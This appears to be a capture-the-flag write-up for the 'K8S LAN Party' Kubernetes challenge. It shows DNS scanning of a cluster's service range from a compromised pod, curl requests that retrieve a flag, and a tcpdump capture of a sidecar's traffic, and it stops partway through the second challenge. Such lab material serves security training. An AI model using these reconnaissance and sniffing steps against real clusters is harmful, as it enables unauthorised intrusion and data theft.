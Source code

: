 ```yaml
---
description: https://k8slanparty.com/
cover: ../../.gitbook/assets/K8S party.png
coverY: 0
---
```


# K8S LAN Party Writeup

## Challenge 1 - DNSing with the stars

> You have shell access to compromised a Kubernetes pod at the bottom of this page, and your next objective is to compromise other internal services further.
>
> As a warmup, utilize [DNS scanning](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue) to uncover hidden internal services and obtain the flag. We have "loaded your machine with [dnscan](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e) to ease this process for further challenges.

```bash
> dnscan
Usage: ./dnscan -subnet <CIDR or Wildcard>

> env | grep HOST
KUBERNETES_SERVICE_HOST=10.100.0.1

> dnscan -subnet 10.100.0.1/16
10.100.136.254 getflag-service.k8s-lan-party.svc.cluster.local.

> curl 10.100.136.254 
wiz_k8s_lan_party{between-thousands-of-ips-you-found-your-northen-star}
```

## Challenge 2 - Hello?

> Sometimes, it seems we are the only ones around, but we should always be on guard against invisible [sidecars](https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/) reporting sensitive secrets.

Let's look at the tcpdump to see the traffic that the sidecar is making

```bash
> tcpdump
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ns-d4e2eb, link-type EN10MB (Ethernet), snapshot length 262144 bytes
12:15:28.034418 IP 192.168.10.255.45492 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [S], seq 824150725, win 64240, options [mss 1460,sackOK,TS val 4127382585 ecr 0,nop,wscale 7], length 0
12:15:28.035025 IP reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.10.255.45492: Flags [S.], seq 4148269520, ack 824150726, win 65160, options [mss 1460,sackOK,TS val 494105167 ecr 4127382585,nop,wscale 7], length 0
12:15:28.035036 IP 192.168.10.255.45492 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 4127382586 ecr 494105167], length 0
12:15:28.035079 IP 192.168.10.255.45492 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [P.], seq 1:215, ack 1, win 502, options [nop,nop,TS val 4127382586 ecr 494105167], length 214: HTTP: POST / HTTP/1.1
12:15:28.035400 IP reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.10.255.45492: Flags [.], ack 215, win 508, options [nop,nop,TS val 494105168 ecr 4127382586], length 0
12:15:28.038611 IP reporting-service.k8s-lan-party.svc.cluster.local.http > 192.168.10.255.45492: Flags [P.], seq 1:206, ack 215, win 508, options [nop,nop,TS val 494105171 ecr 4127382586], length 205: HTTP: HTTP/1.1 200 OK
12:15:28.038619 IP 192.168.10.255.45492 > reporting-service.k8s-lan-party.svc.cluster.local.http: Flags [.], ack 206, win 501, options [nop,nop,TS val 4127382589 ecr 494105171], length 0
```